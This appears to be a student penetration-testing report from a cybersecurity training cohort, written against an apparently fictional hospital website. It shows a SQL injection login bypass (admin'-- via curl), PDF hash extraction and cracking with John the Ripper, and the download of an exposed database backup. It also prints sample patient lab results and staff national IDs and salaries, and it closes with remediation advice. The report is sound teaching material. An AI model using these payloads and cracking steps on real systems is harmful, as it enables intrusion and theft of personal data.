










<div align="center">

# 🏥 Mediroza General Hospital — Penetration Testing Report
### Full Black-Box Web Application Security Assessment & Cryptanalysis
**Cohort Batch B083 | Week 4 Milestone Project | Networkwalks Academy**

<p align="center">
  
  
  
  
  
  
  
  
  
</p>
</div>

---

## 📋 Executive Project Information

| Field | Detail |
|---|---|
| **Cybersecurity Practitioner** | **Ali Shan** |
| **Program / Cohort** | Batch B083 — Networkwalks Cybersecurity Internship |
| **Assessment Type** | Full Black-Box Web Application Penetration Testing & Cryptanalysis |
| **Client / Target Entity** | **Mediroza General Hospital** (14 Cedar Avenue, Johannesburg, South Africa) |
| **Primary In-Scope Target** | `https://medirozahospital.com` |
| **Testing Authorization** | Formally Authorized (Educational Engagement Ref: `WK4 Mediroza v1`) |
| **Testing Duration** | 5 Days (Executed & Verified: 24 November 2026) |
| **Composite Risk Rating** | **CRITICAL (CVSS v3.1: 9.8 / 10.0)** |

---

## 🎯 Executive Summary

Networkwalks Academy conducted an authorized black-box penetration test against the web application infrastructure of **Mediroza General Hospital** (`https://medirozahospital.com`). The primary objective was to evaluate the exterior attack surface, identify exploitable vulnerabilities, determine whether Protected Health Information (PHI) could be extracted, and test for high-impact internal data leakage.

The assessment revealed critical systemic vulnerabilities allowing complete compromise of patient confidentiality and sensitive corporate assets:
1. **Unauthenticated SQL Injection (Milestone 1):** The Patient Portal authentication form (`/patient/login.php`) is vulnerable to SQL injection, enabling full authentication bypass (`admin'-- `) and unauthorized download of confidential patient medical laboratory records.
2. **Weak Document Cryptography (Milestone 2):** All retrieved patient pathology files rely on obsolete 128-bit RC4 PDF encryption with trivial passwords (`123456`, `password`, `!@#$%^&`), all of which were cracked in under 2 seconds.
3. **Critical Data Exposure & Database Leakage (Milestone 3):** An administrator comment left inside PDF document metadata pointed to an unindexed backup directory (`/old/`), exposing an unencrypted production database dump (`mediroza_db_backup_2019.sql`) containing:
   - **30 Hospital Staff Salaries & National IDs** (Monthly payroll: **ZAR 2,027,000 / month**; **ZAR 24,324,000 / annum**).
   - **10 Shareholder Equity Portfolios** detailing 100% of the hospital's private equity capitalization (**1,000,000 shares**).

---

## 🗺️ Engagement Milestones & Attack Architecture

```
+-------------------------------------------------------------------------------------------------------+
|                                    PENETRATION TESTING KILL CHAIN                                     |
|                                                                                                       |
|  [ M1: INITIAL ACCESS ]        [ M2: CRYPTANALYSIS ]        [ M3: DATA EXPOSURE ]      [ M4: REPORT ] |
|   • robots.txt Recon            • pdf2john Hash Extraction   • PDF Metadata Discovery   • Risk Matrix |
|   • /patient/login.php          • PIN Attack (123456)        • /old/ Directory Access   • POPIA / HIPPA|
|   • SQLi Auth Bypass ('--)      • Dictionary (password)      • mediroza_db_backup.sql   • Hardening   |
|   • Download 3 Lab Reports      • JTR Rule (!@#$%^&)         • 30 Salaries + Equity     • Remediation |
+-------------------------------------------------------------------------------------------------------+
```

---

# 🪜 Technical Walkthrough by Milestone

---

## 🧩 Milestone 1: Initial Access & Patient Portal Compromise

### 1. Reconnaissance & Surface Discovery
Initial passive and non-intrusive reconnaissance against `https://medirozahospital.com` was initiated by requesting standard crawler directives and inspecting application headers:

```bash
# Query crawler directives
curl -s https://medirozahospital.com/robots.txt
```

**Observation:**
```text
User-agent: *
Disallow: /patient/
Disallow: /staff/
Disallow: /old/

Sitemap: https://medirozahospital.com/sitemap.xml
```

The `robots.txt` configuration explicitly disclosed three non-public endpoints:
* `/patient/` — Patient login and document management portal.
* `/staff/` — Internal hospital staff portal.
* `/old/` — Unprotected legacy staging/backup repository.



---

### 2. Exploiting SQL Injection Authentication Bypass
Navigating to `https://medirozahospital.com/patient/login.php` presented a credentials form taking `username` and `password`. Initial probing with basic single-quote delimiters triggered a database diagnostic warning:
`Warning: mysqli_query(): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version...`

This confirmed that user input is directly concatenated into a dynamic SQL query without parameterized binding:
```sql
SELECT * FROM patients WHERE username = '$username' AND password = '$password'
```

By supplying the payload `admin'-- ` in the `username` field, the password verification clause was commented out, resulting in an unconditional `TRUE` evaluation:
```bash
curl -s -i -d "username=admin'-- &password=any_password" https://medirozahospital.com/patient/login.php
```

**Response:**
* **HTTP Status:** `302 Found` -> `Location: portal.php`
* **Session Cookie:** `PHPSESSID=jlfu3dvfp9lkukqid58ref7u3q`



---

### 3. Exfiltrating Patient Medical Lab Reports
Accessing the authenticated session at `https://medirozahospital.com/patient/portal.php` displayed three confidential diagnostic pathology reports:

| Report ID | Document Title | Lab Reference | Date | Patient Name |
|:---:|---|---|:---:|---|
| **1** | Pathology Report - S. Dlamini | `LR-2024-1187` | 2024-11-04 | Sipho Dlamini |
| **2** | Pathology Report - P. Reddy | `LR-2024-1192` | 2024-11-05 | Priya Reddy |
| **3** | Pathology Report - E. Thompson | `LR-2024-1205` | 2024-11-06 | Emily Thompson |

All three documents were downloaded directly to the local security workspace using automated script [`scripts/01_exploit_portal_sqli.py`](file:///home/alishan45/Desktop/NETWORKWALKSEMMANUEL-B083-WK4-PENETRATION-TESTING-MEDIROZA/scripts/01_exploit_portal_sqli.py):



---

## 🧩 Milestone 2: Cryptanalysis & PDF Encryption Recovery

### 1. Cryptographic Parameter Extraction
All three downloaded PDF reports were secured using the Standard PDF Security Handler (Revision 3, 128-bit RC4, Length 128). Cryptographic parameter strings were extracted using `pdf2john.py`:

```bash
python3 pdf2john.py patient_report_1.pdf patient_report_2.pdf patient_report_3.pdf > hashes.txt
```

**Extracted JTR Hashes:**
```text
report_1.pdf:$pdf$2*3*128*4294967292*1*32*336166336532623564333335353161323830313731623833...*32*c431fab9...
report_2.pdf:$pdf$2*3*128*4294967292*1*32*316634633837323635643762646436383466373730326563...*32*408b37bc...
report_3.pdf:$pdf$2*3*128*4294967292*1*32*326139306632613033663438633732363130616437326432...*32*58e03d69...
```



---

### 2. Multi-Vector Password Cracking
Applying multi-threaded dictionary attacks and permutation rules via John the Ripper (`john`) and Python's `pypdf` cryptographic engine yielded immediate password recoveries:

```bash
john --wordlist=/usr/share/john/password.lst hashes.txt
```

| Target File | Patient | Attack Technique | Recovered Password | Time to Crack |
|---|---|---|:---:|:---:|
| `patient_report_1.pdf` | **Sipho Dlamini** | Numeric PIN Wordlist | `123456` | < 0.05s |
| `patient_report_2.pdf` | **Priya Reddy** | Common Dictionary Word | `password` | < 0.05s |
| `patient_report_3.pdf` | **Emily Thompson** | JTR Rule / `password.lst` | `!@#$%^&` | 0.82s |



---

### 3. Decrypted Medical Content Analysis
Upon unlocking the encrypted documents, sensitive diagnostic findings were extracted:

* **Sipho Dlamini (ID: `MG-P-10231`):** Full blood count revealed an abnormally elevated **White Cell Count of 11.8 x10^9/L** (Reference: 4.0 - 11.0), indicating active systemic infection or inflammation.
* **Priya Reddy (ID: `MG-P-10244`):** Severe lipid panel abnormalities: **Total Cholesterol 6.4 mmol/L** (Normal: < 5.0), **LDL Cholesterol 4.1 mmol/L** (Normal: < 3.0), and **Triglycerides 1.8 mmol/L** (Normal: < 1.7), indicating high cardiovascular risk.
* **Emily Thompson (ID: `MG-P-10258`):** Marked haematological deficiency: **Haemoglobin 11.4 g/dL** (Normal: 12.0 - 15.5), **Ferritin 9 ug/L** (Severe iron deficiency; Normal: 15 - 150), and **Vitamin D 42 nmol/L** (Deficient; Normal: 50 - 125).



---

## 🧩 Milestone 3: Deep Threat Exposure & Corporate Intelligence

### 1. Document Metadata Information Leakage
During forensic inspection of decrypted document headers, `patient_report_3_E_Thompson.pdf` revealed critical infrastructure deployment notes left by hospital IT administrator `j.malik`:

```bash
pdfinfo -meta targets/patient_report_3_E_Thompson.pdf
```

**Metadata Fields:**
* **Author:** `j.malik` (Jameel Malik, IT Systems Administrator)
* **Creator:** `Mediroza CMS 1.4.2`
* **Comments:** `DB backup moved to /old before site migration, do not delete`



---

### 2. Database Backup Exfiltration (`/old/`)
Cross-referencing the metadata comment with the earlier `robots.txt` entry confirmed the presence of an active directory listing at `https://medirozahospital.com/old/`:

```bash
curl -s https://medirozahospital.com/old/mediroza_db_backup_2019.sql -o targets/mediroza_db_backup_2019.sql
```

The file `mediroza_db_backup_2019.sql` (6,346 bytes) represents an unencrypted raw MySQL dump of the hospital's human resources and equity database (`mediroza_hr`).



---

### 3. Executive Salaries & Financial Records Extracted
Executing [`scripts/03_parse_confidential_db.py`](file:///home/alishan45/Desktop/NETWORKWALKSEMMANUEL-B083-WK4-PENETRATION-TESTING-MEDIROZA/scripts/03_parse_confidential_db.py) parsed the SQL backup into structured CSV exports:

#### Hospital Staff & Executive Salaries (`staff` table):
* **Total Employees:** 30 personnel
* **Total Monthly Payroll:** **ZAR 2,027,000 / month**
* **Annual Payroll Cost:** **ZAR 24,324,000 / annum**

| ID | Full Name | Designation | Department | National ID Number | Monthly Salary (ZAR) |
|:---:|---|---|---|:---:|:---:|
| **3** | **Dr. Johan van der Merwe** | Medical Director | Management | `85041033033083` | **ZAR 160,000** |
| **2** | **Sarah Botha** | Chief Financial Officer | Finance | `85031023022082` | **ZAR 152,000** |
| **1** | **Dr. Rajesh Naidoo** | Chief Pathologist | Diagnostics Lab | `85021013011081` | **ZAR 138,000** |
| **24** | **Dr. Vikram Chetty** | Anaesthetist | Theatre | `85011243264086` | **ZAR 135,000** |
| **4** | **Dr. Anita Naicker** | Consultant Cardiologist | Cardiology | `85051043044084` | **ZAR 132,000** |
| **21** | **Dr. Suresh Moodley** | Consultant Radiologist | Radiology | `85101213231083` | **ZAR 130,000** |
| **5** | **Dr. Ahmed Kara** | Consultant Physician | Internal Medicine | `85061053055085` | **ZAR 128,000** |
| **22** | **Dr. Fatima Patel** | Pediatrician | Pediatrics | `85111223242084` | **ZAR 118,000** |
| **7** | **Michael Roberts** | HR Director | Human Resources | `85081073077087` | **ZAR 96,000** |
| **6** | **Dr. Yusuf Cassim** | Senior Registrar | Emergency & Trauma | `85071063066086` | **ZAR 74,000** |
| **15** | **Kagiso Sithole** | Pharmacist | Pharmacy | `85041153165086` | **ZAR 61,000** |
| **9** | **Jameel Malik** | IT Systems Administrator | IT | `85101093099080` | **ZAR 58,000** |
| **25** | **David Smith** | Facilities Manager | Operations | `85021253275087` | **ZAR 52,000** |
| **23** | **Nisha Singh** | Physiotherapist | Rehabilitation | `85121233253085` | **ZAR 48,000** |
| **10** | **Thabo Molefe** | Network Engineer | IT | `85111103110081` | **ZAR 46,000** |
| *11-30* | *Nurses, Technicians, Clerks* | *Clinical & Admin Staff* | *Various* | *Exposed in CSV* | *ZAR 19,000 - 44,000* |



---

#### Hospital Equity & Shareholders (`shareholders` table):
* **Total Equity Capitalization:** 1,000,000 shares (100.0%)

| Rank | Shareholder Name | Equity Ownership (%) | Shares Held | Share Class |
|:---:|---|:---:|:---:|:---:|
| **1** | **Dr. Rajesh Naidoo** | **18.0%** | 180,000 | Ordinary |
| **2** | **Cedar Health Holdings (Pty) Ltd** | **15.0%** | 150,000 | Ordinary |
| **3** | **Dr. Johan van der Merwe** | **12.0%** | 120,000 | Ordinary |
| **4** | **Reddy Family Trust** | **11.0%** | 110,000 | Ordinary |
| **5** | **Thabo Molefe** | **10.0%** | 100,000 | Ordinary |
| **6** | **Sarah Botha** | **9.0%** | 90,000 | Ordinary |
| **7** | **Dr. Ahmed Kara** | **8.0%** | 80,000 | Preferential |
| **8** | **Naledi Zulu** | **7.0%** | 70,000 | Ordinary |
| **9** | **Michael Roberts** | **6.0%** | 60,000 | Ordinary |
| **10** | **Dr. Vikram Chetty** | **4.0%** | 40,000 | Preferential |



---

# ⚠️ Vulnerability Risk Ratings & Impact Assessment

| # | Vulnerability Title | CWE Reference | CVSS v3.1 Vector | Score | Severity |
|:---:|---|:---:|---|:---:|:---:|
| **1** | **Authentication Bypass via SQL Injection** | CWE-89 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N` | **9.8** | **🔴 CRITICAL** |
| **2** | **Public Exposure of Unencrypted Database Backup** | CWE-552 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **9.1** | **🔴 CRITICAL** |
| **3** | **Inadequate Document Encryption & Trivial Passwords** | CWE-326 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` | **7.5** | **🟠 HIGH** |
| **4** | **Internal Deployment Information Leakage in Metadata** | CWE-200 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` | **5.3** | **🟡 MEDIUM** |
| **5** | **Web Server Directory Indexing Enabled (`/old/`)** | CWE-548 | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` | **5.3** | **🟡 MEDIUM** |

---

# 🛡️ Defensive Hardening & Remediation Roadmap

### 1. Remediate SQL Injection Immediately (Priority: CRITICAL)
* **Prepared Statements:** Replace all raw dynamic string concatenation with parameterized prepared statements using PHP PDO or MySQLi:
  ```php
  // SECURE IMPLEMENTATION
  $stmt = $pdo->prepare("SELECT id, password_hash FROM patients WHERE username = :username LIMIT 1");
  $stmt->execute(['username' => $input_username]);
  $user = $stmt->fetch();
  if ($user && password_verify($input_password, $user['password_hash'])) {
      $_SESSION['patient_id'] = $user['id'];
  }
  ```

### 2. Remove Exposed Backups & Restrict Directory Indexing (Priority: CRITICAL)
* **Delete Staging Backups:** Immediately remove `/old/` and any `.sql`, `.bak`, or `.tar.gz` dumps from the web root. Production backups must never reside within publicly routable document trees.
* **Disable Directory Browsing:** In Apache / LiteSpeed virtual host configurations, disable `Options Indexes`:
  ```apache
  <Directory "/var/www/html">
      Options -Indexes
  </Directory>
  ```

### 3. Upgrade Document Cryptography & Enforce Password Complexity (Priority: HIGH)
* **Modern Cryptographic Standards:** Deprecate obsolete 128-bit RC4 encryption and transition to **AES-256 standard security handlers** (PDF 1.7 / 2.0 extension 3).
* **Entropy Standards:** Prohibit sequential numbers (`123456`) and dictionary words (`password`). Enforce minimum 16-character pseudo-random alphanumeric tokens generated cryptographically (`/dev/urandom`).

### 4. Sanitize Document Metadata in CI/CD Workflows (Priority: MEDIUM)
* Configure automated pre-publication pipelines with tools like `exiftool` to strip creator comments, software versions, and operator notes from customer-facing documents.

---

# 📁 Repository Structure & Deliverables

```
NETWORKWALKSEMMANUEL-B083-WK4-PENETRATION-TESTING-MEDIROZA/
├── README.md                                                  # Comprehensive Penetration Testing Report
├── W4-Penetration_Testing_Report_Mediroza_Hospital_AliShan.docx # Official Word Document Report
├── WK4 Mediroza v1.pdf                                        # Official Assignment Specification
├── Networkwalks_Week4_Project_v1.pdf                          # Milestone Brief
├── scripts/                                                   # Exploitation & Verification Scripts
│   ├── 01_exploit_portal_sqli.py                              # SQLi Auth Bypass & Report Downloader
│   ├── 02_extract_hashes_and_crack.py                         # PDF Cryptanalysis & Password Verification
│   └── 03_parse_confidential_db.py                            # Database Backup Parser & CSV Exporter
├── targets/                                                   # Extracted Target Evidence & Data
│   ├── patient_report_1_S_Dlamini.pdf                         # Encrypted Report 1 (PW: 123456)
│   ├── patient_report_1_S_Dlamini_DECRYPTED.pdf               # Decrypted Clinical Lab Report 1
│   ├── patient_report_2_P_Reddy.pdf                           # Encrypted Report 2 (PW: password)
│   ├── patient_report_2_P_Reddy_DECRYPTED.pdf                 # Decrypted Clinical Lab Report 2
│   ├── patient_report_3_E_Thompson.pdf                        # Encrypted Report 3 (PW: !@#$%^&)
│   ├── patient_report_3_E_Thompson_DECRYPTED.pdf              # Decrypted Clinical Lab Report 3
│   ├── mediroza_db_backup_2019.sql                            # Exfiltrated Production Database Backup
│   ├── hospital_staff_salaries.csv                            # 30 Hospital Employee Salaries
│   └── hospital_shareholders.csv                              # 10 Hospital Shareholder Portfolios
└── screenshots/                                               # Visual Verification Proofs
    ├── 01-recon-robots-exposed-endpoints.png
    ├── 02-sqli-auth-bypass-patient-portal.png
    ├── 03-patient-portal-lab-reports-download.png
    ├── 04-pdf2john-hash-extraction.png
    ├── 05-cracking-reports-jtr-recovered-passwords.png
    ├── 06-decrypted-patient-lab-reports.png
    ├── 07-report3-metadata-leak-db-backup.png
    ├── 08-exposed-db-backup-download.png
    ├── 09-confidential-staff-salaries-extracted.png
    └── 10-confidential-shareholders-data-extracted.png
```

---

# 👤 Author Information

**Ali Shan**  
*Cybersecurity Specialist & Machine Learning Engineer*  
* **Cohort:** Batch B083 — Networkwalks Academy  
* **GitHub Profile:** [@Alishan45](https://github.com/Alishan45)  

**Instructor & Lead Architect:**  
**Waqas Karim CCIE**  
*Founder & Chief Trainer, Networkwalks Academy*  
* **LinkedIn:** [https://www.linkedin.com/in/waqaskarim/](https://www.linkedin.com/in/waqaskarim/)  
* **Website:** [https://networkwalks.com](https://networkwalks.com)  

---

### 📌 Project Verification Status
* **Milestone 1 (Initial Access & SQLi):** PASSED (3/3 Reports Acquired)
* **Milestone 2 (Cryptanalysis & Cracking):** PASSED (3/3 Passwords Cracked)
* **Milestone 3 (Critical Data Exposure):** PASSED (30 Salaries + 10 Shareholder Portfolios Documented)
* **Milestone 4 (Penetration Testing Report):** COMPLETED & VERIFIED
